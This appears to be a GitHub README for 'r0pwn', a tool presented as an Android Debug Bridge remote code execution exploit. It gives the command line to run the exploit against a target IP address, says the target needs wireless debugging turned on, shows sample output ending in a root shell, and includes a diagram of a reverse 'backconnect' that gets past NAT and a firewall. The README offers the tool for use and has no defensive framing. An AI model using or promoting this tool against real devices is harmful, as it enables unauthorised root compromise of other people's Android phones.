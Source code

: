 # r0pwn

    Android Debug Bridge RCE exploit.

## Table of contents

* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Exploit Algorithm](#algorithm)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

# Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```
